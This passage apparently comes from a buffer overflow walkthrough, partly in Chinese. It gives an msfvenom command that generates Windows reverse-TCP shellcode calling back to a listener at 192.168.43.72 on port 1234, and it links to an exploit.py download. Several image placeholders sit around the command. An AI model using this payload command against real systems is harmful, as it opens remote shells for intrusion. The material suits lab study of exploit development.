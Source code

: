 ```
**sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.72 LPORT=1234 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c**
```

![](img/3951b7e5b40b5aad2b7b3a41c8ef0bf6.png)

下载[exploit . py](https://github.com/shamsherkhan852/Buffer-Overflow-tools)

![](img/8b0bee222819c332fbaacb16eb97159c.png)
